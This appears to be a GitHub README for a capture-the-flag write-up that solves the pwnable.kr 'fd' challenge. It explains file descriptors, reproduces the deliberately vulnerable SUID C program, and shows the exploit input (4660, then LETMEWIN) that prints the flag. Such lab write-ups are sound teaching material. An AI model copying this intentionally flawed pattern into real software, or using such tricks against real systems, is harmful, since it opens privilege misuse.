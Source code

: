 # file-descriptor-stdin-attack
In Unix and related computer operating systems, a file descriptor (FD, less frequently fildes) is an abstract indicator (handle) used to access a file or other input/output resource, such as a pipe or network socket. File descriptors form part of the POSIX application programming interface. A file descriptor is a non-negative integer, generally represented in the C programming language as the type int (negative values being reserved to indicate "no value" or an error condition).  Each Unix process (except perhaps a daemon) should expect to have three standard POSIX file descriptors, corresponding to the three standard streams.

# Example of use this Script in wargame pwnable.kr (fd)
```
root@kali:~/Desktop/Scripts# python3 file-descriptor.py --hexvalue 0x1234 --vulnapp fd
[+]Hexvalue: 0x1234
[+]Vulnapp: fd
LETMEWIN
good job :)
mommy! I think I know what a file descriptor is!!
```

# Example in wargame pwnable.kr (fd)

ssh fd@pwnable.kr -p2222 (pw:guest)


We are into the server and we see 3 files: fd  fd.c  flag. It is very importat thing to know who am i, so I just enter id or whoami, and seeing the actual user. The file fd.c is readable by the user fd. -rw-r--r-- 1 root   root  418 Jun 11  2014 fd.c
And the binary has SUID bit and I can run it. -r-sr-x--- 1 fd_pwn fd   7322 Jun 11  2014 fd
Flag file we can't read the solution....So we could trick the fd application to read flag and view the content of the file.

Running the binary file to find out some issue or clue :S. When we open this file, I just discover than I will introduce some kind of argument like a number: 
fd@ubuntu:~$ ./fd
pass argv[1] a number

View of the vulnerable C code:
```c
fd@ubuntu:~$ cat fd.c 
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
char buf[32];
int main(int argc, char* argv[], char* envp[]){
    if(argc<2){ // Do not accept less than 2 arguments (program name is one of them), print help and exit
        printf("pass argv[1] a number\n");
        return 0;
    } 

// atoi: convert a string array to integer
    int fd = atoi( argv[1] ) - 0x1234;
    int len = 0;

// Read from file descriptor int(argv[1] - 0x1234)
    len = read(fd, buf, 32);

// If strcmp("LETMEWIN\n", buf) returns 0 (matches), print flag
    if(!strcmp("LETMEWIN\n", buf)){
        printf("good job :)\n");
        system("/bin/cat flag");
        exit(0);
    }
    printf("learn about Linux file IO\n");
    return 0;

}

```
The atoi function convert a string to integer value. It is interesting to know what is Linux File Descriptor. The 0 value is stdin, so I figure out how is the value in decimal to 0x1234 = 4660. If I pass as argument 4660, that is equal to read(0, buf, 32). Therefore we need to know that stdin must be enabled with 0 File Descriptor, and you can convert to zero through argument passed. So if I put 4660, fd == 0 and this let us to write (stdin) LETMEWIN\n and saved in buffer array.
```
fd@ubuntu:~$ ./fd 4660
LETMEWIN
good job :)
mommy! I think I know what a file descriptor is!!
```

More information about Linux File Descriptors: https://en.wikipedia.org/wiki/File_descriptor
